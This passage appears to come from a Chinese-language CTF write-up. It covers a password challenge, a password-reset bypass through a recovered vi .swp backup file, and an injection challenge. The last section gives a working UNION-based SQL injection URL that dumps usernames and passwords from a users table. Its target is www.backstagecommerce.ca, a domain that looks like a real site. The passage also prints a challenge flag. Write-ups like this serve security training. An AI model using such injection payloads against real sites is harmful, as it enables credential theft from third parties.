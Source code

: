 提示有密码，那就把刚刚看到的那个  love  输进去试试，然后，图片就出来了，之后就没什么了

**密码重置2**

* * *

这题的提示很多，再根据密码重置1  ，还是比较好做的

第一个提示说管理员邮箱很容易找到，在源代码里就找到了管理员邮箱

之后说linux    vi编辑器，异常退出之后会留下备份文件，查了一下应该是原来的文件名后面加上 .swp  

然后根据密码重置1 的思路，把路径改为

![](img/518a9e8c158de796914f3eae1ea0406e.png) 

即可得到内容，这里看因为编码问题是乱码，那就抓个包，在抓包工具里看

![](img/cd82cb04bd596e5ab0a6bb99093efb9e.png)对邮箱的限制

![](img/fc27cfd7f46426563fe4ad5202059103.png) 

对密码的要求，等于0而且长度为10

写了十个0，顺利拿到flag

flag:nctf{thanks_to_cumt_bxs}

**注入实战1**

* * *

##### 这题想复杂了，直接盲注就好了

##### http://www.backstagecommerce.ca/services.php

##### ?id=4 and 1=2 UNION SELECT 1,2,group_concat(username,0x3a,password),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19 from users -- -

##### 注出来是这个，把密码MD5就可以了
